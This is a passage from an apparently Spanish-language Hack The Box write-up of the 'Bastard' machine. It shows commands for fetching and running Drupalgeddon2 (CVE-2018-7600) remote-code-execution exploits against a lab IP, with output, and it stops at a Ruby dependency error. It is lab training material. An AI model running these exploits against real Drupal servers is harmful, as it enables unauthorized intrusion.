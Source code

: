 descargaremos este exploit

```bash
Bastard # ❯ searchsploit -m 44448
  Exploit: Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)
      URL: https://www.exploit-db.com/exploits/44448
     Path: /usr/share/exploitdb/exploits/php/webapps/44448.py
File Type: a /usr/bin/env script, ASCII text executable

Copied to: /mnt/Pentester/Certificaciones/OSCP/WorkFolder/Plataformas/htb/Bastard/44448.py
```

probamos el exploit y nos dice que no es explotable

```bash
Bastard # ❯ python3 44448.py                                                                                                             
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://10.129.143.4/
Not exploitable
```

pero no nos daremos por vencidos, asi que busque el mismo exploit en algun repositorio de github

```bash
https://github.com/dreadlocked/Drupalgeddon2
```

descargamos dicho exploit y nos sale el siguiente error

```bash
Bastard # ❯ git clone https://github.com/dreadlocked/Drupalgeddon2.git             
Clonando en 'Drupalgeddon2'...
remote: Enumerating objects: 257, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 257 (delta 0), reused 0 (delta 0), pack-reused 253
Recibiendo objetos: 100% (257/257), 102.12 KiB | 473.00 KiB/s, listo.
Resolviendo deltas: 100% (88/88), listo.

Bastard # ❯ cd Drupalgeddon2

Drupalgeddon2 # ❯ ruby drupalgeddon2.rb http://10.129.143.4
Traceback (most recent call last):
	2: from drupalgeddon2.rb:16:in `<main>'
	1: from /usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb:85:in `require'
/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb:85:in `require': cannot load such file -- highline/import (LoadError)
```
